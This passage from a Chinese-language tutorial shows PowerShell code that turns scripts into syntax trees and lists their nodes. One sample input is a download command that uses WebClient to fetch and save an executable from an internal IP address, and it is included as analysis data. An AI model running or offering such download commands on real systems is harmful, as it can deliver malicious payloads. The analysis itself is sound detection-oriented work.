```
  ForEach-Object {
    # take unique object hash as key
    $id = 0;
    if($_.Parent) {
      $id = $_.Parent.GetHashCode()
    }
    Write-Debug('{0}:{1}' -f $_.GetType().Name,$id)

    if ($hierarchy.ContainsKey($id) -eq $false) {
      $hierarchy[$id] = [System.Collections.ArrayList]@()
    }
    $null = $hierarchy[$id].Add($_)
    # add ast object to parent
  }
  
  # 递归可视化树
  function Visualize-Tree($Id)
  {
    # 每级缩进
    $hierarchy[$id] | ForEach-Object {
      # 获取当前AST对象的id
      $newid = $_.GetHashCode()

      # 递归其子节点（if any)
      if ($hierarchy.ContainsKey($newid))
      {
        Visualize-Tree -id $newid
      }
      $null = $result.Add($_.GetType().Name)
    }
  }

  # 使用AST根对象开始可视化
  Visualize-Tree -id 0
  return $result
}

Convert-CodeToAst -str .\data\example-002.ps1

```

“$a=1”示例的输出结果如下图所示：

另一段Powershell代码的后序节点输出结果如下图所示：

```
powershell (new-object system.net.webclient).downloadfile('http://192.168.10.11/test.exe','test.exe');
StringConstantExpressionAst
StringConstantExpressionAst
StringConstantExpressionAst
CommandAst
PipelineAst
ParenExpressionAst
StringConstantExpressionAst
StringConstantExpressionAst
StringConstantExpressionAst
InvokeMemberExpressionAst
CommandAst
PipelineAst
NamedBlockAst

```

---

[NamedBlockAst]: $a = 1
[NamedBlockAst]: powershell (new-object system.net.webclient).downloadfile('http://192.168.10.11/test.exe','test.exe')